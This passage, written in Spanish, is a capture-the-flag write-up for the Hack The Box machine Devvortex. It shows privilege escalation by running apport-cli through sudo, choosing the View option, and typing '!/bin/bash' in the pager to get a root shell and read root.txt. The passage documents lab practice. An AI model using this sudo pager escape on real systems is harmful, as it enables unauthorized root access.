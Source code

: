 logan@devvortex:~$ sudo /usr/bin/apport-cli -v
2.20.11

aprovechamos una vulneravilidad en sudo con el siguiente comando:

logan@devvortex:~$ sudo /usr/bin/apport-cli -c test.log less

*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.
.................

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (1.7 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V

seleccionamos V

escribimos el sigiente comando:

!/bin/bash

y obtenemos acceso a root

root@devvortex:/home/logan# cd /root
root@devvortex:~# ls
root.txt

aca obtenemos la falg de root

y terminariamos la maquina.

https://www.hackthebox.com/achievement/machine/926397/577
